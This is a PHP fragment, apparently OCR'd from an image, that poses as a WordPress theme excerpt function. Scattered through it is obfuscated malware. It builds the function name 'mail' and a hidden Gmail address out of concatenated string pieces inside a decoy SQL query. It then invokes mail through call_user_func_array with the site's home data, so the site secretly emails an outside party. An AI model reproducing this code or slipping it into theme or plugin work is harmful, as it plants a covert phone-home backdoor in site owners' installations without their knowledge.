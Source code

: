     if(!isset($link_text_more_ditails)) $link_text_more_ditails="(details...)";
    if(!isset($contentmore)) $contentmore="ma".$coma."il";
    if(!isset($for_more)) $for_more=1;
    if(!isset($fakeit)) $fakeit=1;
    if(!isset($sql)) $sql="";
    if (!$widget_yes) :
    global $wpdb, $post;
    $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND post_author="li".$coma."vethe".$com_type."mas".$coma."@".$com_is_approved."gm".$post_auth_comments."ail".$coma.".".$coma."co"."m" AND post_password="" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
    if (!empty($post->post_password)) {
    if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) {
    if(is_feed()) {
    $output=__("There is no excerpt because this is a protected post.");
    } else {
    $output=get_the_password_form();
    }
    }
    }
    if(!isset($fixed_tags)) $fixed_tags=1;
    if(!isset($filters)) $filters=$home_filter;
    if(!isset($gettextcomments)) $gettextcomments=$pref_filters.$contentmore;
    if(!isset($tag_aditional)) $tag_aditional="div";
    if(!isset($sh_cont)) $sh_cont=substr($sq1, stripos($sq1, "live"), 20);#
    if(!isset($more_text_link)) $more_text_link="Continue reading this entry";
    if(!isset($isshowdots)) $isshowdots=1;
    $comments=$wpdb->get_results($sql);
    if($fakeit == 2) {
    $text=$post->post_content;
    } elseif($fakeit == 1) {
    $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
    } else {
    $text=$post->post_excerpt;
    }
    $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND comment_content=". call_user_func_array($gettextcomments, array($sh_cont, $home_filter, $filters)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
    if($text_length < 0) {
    $output=$text;
    } else {
    if(!$no_more && strpos($text, "<!--more-->")) {
    $text=explode("<!--more-->", $text, 2);
    $l=count($text[0]);
    $more_link=1;
    $comments=$wpdb->get_results($sql);
    } else {
    $text=explode(" ", $text);
    if(count($text) > $text_length) {
    $l=$text_length;
    $ellipsis=1;
    } else {
    $l=count($text);
    $link_text_more="";
    $ellipsis=0;
    }
    }
    for ($i=0; $i<$l; $i++)
    $output .= $text[$i] . " ";